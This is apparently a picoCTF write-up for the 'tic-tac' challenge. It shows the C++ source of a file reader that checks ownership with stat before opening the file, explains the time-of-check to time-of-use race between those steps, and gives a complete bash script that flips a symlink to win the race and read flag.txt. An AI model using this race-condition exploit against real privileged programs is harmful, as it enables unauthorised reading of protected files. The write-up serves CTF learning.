# `tic-tac`

We're dropped in a shell and can use a utility compiled from:

``` cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

It looks like there's a [TOCTOU
bug](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use):

  - we open `filename` with `std::ifstream file(filename)`
  - We check ownership based on the output of `stat(filename.c_str(), ...)`

So we should be able to access any file by:

  - Making `filename` point to the file we want to open at the `file` call
  - Making `filanem` point to a file we own at the `stat` call

We can do this by:

  - Creating a file we own
  - Add a symbolic link that alternates between linking to that file and the
    target file
  - Pass the symbolic link to the program

It's just a matter of chance if we'll get the timing right, so we can just loop
retires until we print something that looks like a key.

``` sh
#!/bin/bash

TARGET='flag.txt'
TEMP='readable.txt'
# the file we'll try and read
LINK='file.txt'

touch "$TEMP"

function race() {
    # toggle 'LINK' to link to the file we own and the target
    while :
    do
        ln -sf "$TEMP" "$LINK" 
        sleep 0.001
        ln -sf "$TARGET" "$LINK" 
        sleep 0.001
    done
}

# run race in the background
race &

while :
do
    ./txtreader "$LINK" 2>/dev/null | grep 'picoCTF' && break
done

# kill the 'race' we sent to the background
kill %1
```
